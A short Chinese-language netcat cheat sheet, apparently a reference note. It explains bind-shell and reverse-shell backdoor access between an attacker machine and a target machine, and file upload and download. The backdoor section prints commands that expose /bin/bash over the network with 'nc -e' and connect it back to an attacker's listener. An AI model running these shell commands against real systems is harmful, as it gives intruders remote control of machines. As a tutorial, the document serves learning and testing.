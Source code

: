 # netcat

> netcat 是一种常用的网络工具，主要用于在网络间建立 TCP 或 UDP 连接来进行数据传输、传输文件、端口扫描、远程系统管理以及后门访问。

## 后门访问

> 例如攻击者在局域网，而靶机在公网并且关闭了防火墙，绑定了 shell 提供给攻击者访问的情况，一般为**正向 shell**。

* 靶机：

   ```bash
   nc -lvp 8888 -e /bin/bash
   ```

* 攻击机（在局域网中）：

   ```bash
   nc -v ip 8888
   ```

此时我们在攻击机中就可以获取靶机的终端访问权限

> 而攻击者将 shell 绑定至本地端口，供靶机远程访问。靶机主动连接正在监听的攻击者的行为就是**反向 shell**。（*此时攻击者位于公网*）

* 攻击机（位于公网）：

   ```bash
   nc -lvp 8888
   ```

* 靶机：

   ```bash
   nc -v ip 8888 -e /bin/bash
   ```

## 文件传输

> 文件上传：将客户端文件上传到服务端

服务端：

```bash
nc --recv-only -lvp 8888 > listen.sh
```

客户端：

```bash
nc --send-only -v ip 8888 < listen.sh
```

> 文件下载：客户端从服务端下载文件

服务端：

```bash
nc --send-only -lvp 8888 < listen.sh
```

客户端

```bash
nc -v --recv-only ip 8888 > listen.sh
```

参见：<https://wangchujiang.com/reference/docs/netcat.html>
